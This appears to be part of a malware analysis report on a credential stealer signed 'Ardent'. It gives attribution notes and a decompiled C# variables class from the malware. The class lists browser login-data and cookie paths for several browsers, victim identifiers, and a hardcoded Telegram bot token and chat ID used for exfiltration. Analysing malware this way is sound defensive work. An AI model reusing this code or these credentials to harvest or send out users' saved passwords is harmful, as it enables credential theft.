 - The malware internally **hardcodes the string `@ardent.zip`** during ZIP creation.
- Telegram exfiltration messages end with "**🖥️ Coded by Ardent**."
- This suggests that the malware author **self-identifies as 'ardent'**, leaving a signature embedded inside the tool itself.

# Variables

```csharp
using System;
using System.IO;
using System.Net;
using System.Security.Principal;

namespace Main
{
    public class Variables
    {
        public static string localappdata = Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData);
        public static string roamingappdata = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData);
        public static string programFiles = Environment.GetFolderPath(Environment.SpecialFolder.ProgramFiles);
        public static string temp = Path.GetTempPath();
        public static string desktop = Environment.GetFolderPath(Environment.SpecialFolder.DesktopDirectory);
        public static string LoginDataPathChrome = localappdata + "\\Google\\Chrome\\User Data\\Default\\Login Data";
        public static string CookiePathChrome = localappdata + "\\Google\\Chrome\\User Data\\Default\\Network\\Cookies";
        public static string LoginDataPathEdge = localappdata + "\\Microsoft\\Edge\\User Data\\Default\\Login Data";
        public static string LoginDataPathOperaGX = roamingappdata + "\\Opera Software\\Opera GX Stable\\Login Data";
        public static string LoginDataPathOpera = roamingappdata + "\\Opera Software\\Opera Stable\\Default\\Login data";
        public static string LoginDataPathVivaldi = localappdata + "\\Vivaldi\\User Data\\Default\\Login Data";
        public static string isChromeFound;
        public static string isOperaGXFound;
        public static string isOperaFound;
        public static string isEdgeFound;
        public static string isVivaldiFound;
        public static int allFoundPasswords;
        public static int foundChromePasswords;
        public static int foundOperaGXPasswords;
        public static int foundOperaPasswords;
        public static int foundEdgePasswords;
        public static int foundVivaldiPasswords;
        public static int foundFilesFromDesktop;
        public static string isScreenshotSuccess;
        public static string telegramSessionFound;
        public static string isZipCompressionSuccess;
        public static string username = WindowsIdentity.GetCurrent().Name;
        public static string host = Dns.GetHostName();
        public static IPAddress IP = Dns.GetHostByName(Variables.host).AddressList[0];
        public static string SID = WindowsIdentity.GetCurrent().User.Value;
        public static string Token = "8013735771:AAE_UrTgQsAmiAsXeDN6mehD_fo3vEg-kCM";
        public static string ID = "7613862165";
        public static string workdir = temp + username;
    }
}
```
